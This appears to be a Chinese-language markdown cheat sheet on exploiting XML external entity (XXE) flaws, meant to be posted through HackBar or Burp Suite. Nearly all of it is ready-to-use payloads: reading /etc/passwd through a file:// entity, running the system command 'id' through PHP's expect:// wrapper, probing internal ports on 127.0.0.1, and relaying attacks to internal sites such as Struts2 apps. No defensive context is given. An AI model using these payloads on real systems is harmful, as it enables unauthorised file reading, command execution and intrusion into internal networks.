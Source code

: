 ### XXE利用方式

 使用hackbar post构造的xml文档，或者burpsuite抓包进行post 

#### A) 有回显的注入

##### 1）任意文件读取

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
    <!ENTITY file SYSTEM "file:///etc/passwd">]>
<foo>
        <value>&file;</value> 
</foo>
```

##### 2）命令执行

在安装expect扩展的PHP环境里执行系统命令，其他协议也有可能可以执行系统命令

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<root>
<name>&xxe;</name>
</root>
```

##### 3）内网端口探测

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" >]>
<root>
<name>&xxe;</name>
</root>
```

可以对80端口进行探测，一般会探测比较常用的端口。

##### 4）攻击内网网站

结合网站框架本身的漏洞，如struts2

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80/payload" >]>
<root>
<name>&xxe;</name>
</root>
```
